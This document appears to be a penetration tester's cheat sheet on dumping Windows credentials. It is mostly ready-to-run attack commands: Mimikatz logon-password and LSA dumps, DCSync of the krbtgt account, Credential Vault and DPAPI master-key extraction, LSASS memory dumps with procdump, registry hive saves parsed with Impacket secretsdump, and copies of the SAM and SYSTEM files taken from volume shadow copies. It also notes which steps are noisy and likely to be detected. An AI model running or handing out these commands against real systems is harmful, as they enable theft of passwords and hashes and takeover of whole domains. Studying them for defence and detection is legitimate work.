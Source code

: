 ## Dump
- ADFS private key
- DPAI Absuse
	- credential manager
- Clear Text LAPS Password from LDAP
- LSASS
- ntds.dit
  
***
### LSASS protection

Sometimes, LSASS is configured to run as a protected process (PPL). You can query this with PowerShell as follows.

```powershell
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL" 
```

If this is the case, you can’t just dump or parse LSASS, and you need to disable the protection with something like `mimidrv.sys`. I won’t discuss how to do that here.

### Dumping secrets with Mimikatz

```plaintext
# Dump logon passwords
sekurlsa::logonpasswords

# Dump all domain hashes from a DC
## Note: Everything with /patch is noisy as heck since it _writes_ to LSASS 🚩
lsadump::lsa /patch

# Dump only local users
lsadump::sam

# DCSync (requires 'ldap' SPN)
lsadump::dcsync /user:dcorp\krbtgt /domain:dollarcorp.moneycorp.local
```

Windows Credential Vault dumping

> I’ve had some issues using this with `Invoke-Mimikatz.ps1`. Try with native Mimikatz if having issues.

```
# Dump windows secrets, such as stored creds for scheduled tasks (elevate first)
vault::list
vault::cred /patch

# Dump windows secrets DPAPI method (less noise and no specific rights reqd yay)
## More here: https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials
## First, get GUID of master key for specific secret
dpapi::cred /in:C:\Users\appadmin\AppData\local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D

## EITHER Grab dpapi keys from LSASS
sekurlsa::dpapi

## OR Grab and cache a specific key
dpapi::masterkey /rpc /in:C:\Users\appadmin\AppData\Roaming\Microsoft\Protect\S-1-5-21-3965405831-1015596948-2589850225-1118\a89b97d2-b520-462d-a924-d57df68c543b

## Mimikatz will cache the master key (check with dpapi::cache)
## Then run the initial dpapi::cred command again to get the juice!
```

### Dumping secrets without Mimikatz

We can also parse system secrets without using Mimikatz on the target system directly.

#### Dumping LSASS

The preferred way to run Mimikatz is to do it locally with a dumped copy of LSASS memory from the target. [Dumpert](https://github.com/outflanknl/Dumpert), [Procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump), or other (custom) tooling can be used to dump LSASS memory.

```powershell
# Dump LSASS memory through a process snapshot (-r), avoiding interacting with it directly
.\procdump.exe -r -ma lsass.exe lsass.dmp
```

After downloading the memory dump file on our attacking system, we can run Mimikatz and switch to ‘Minidump’ mode to parse the file as follows.

```plaintext
sekurlsa::minidump lsass.dmp
```

After this, we can run Mimikatz commands as usual.

#### Dumping secrets from the registry

We can dump secrets from the registry and parse the files “offline” to get a list of system secrets. 🚩

On the target, we run the following:

```powershell
reg.exe save hklm\sam c:\users\public\downloads\sam.save
reg.exe save hklm\system c:\users\public\downloads\system.save
reg.exe save hklm\security c:\users\public\downloads\security.save
```

Then on our attacking box we can dump the secrets with Impacket:

```bash
impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL > secrets.out
```

#### Dumping secrets from a Volume Shadow Copy

We can also create a “Volume Shadow Copy” of the `SAM` and `SYSTEM` files (which are always locked on the current system), so we can still copy them over to our local system. An elevated prompt is required for this.

```powershell
wmic shadowcopy call create Volume='C:\'
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\offsec.corp1\Downloads\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\offsec.corp1\Downloads\system
``` 
***
## Misc
- [RDP Session Hijacking](http://www.korznikov.com/2017/03/0-day-or-feature-privilege-escalation.html)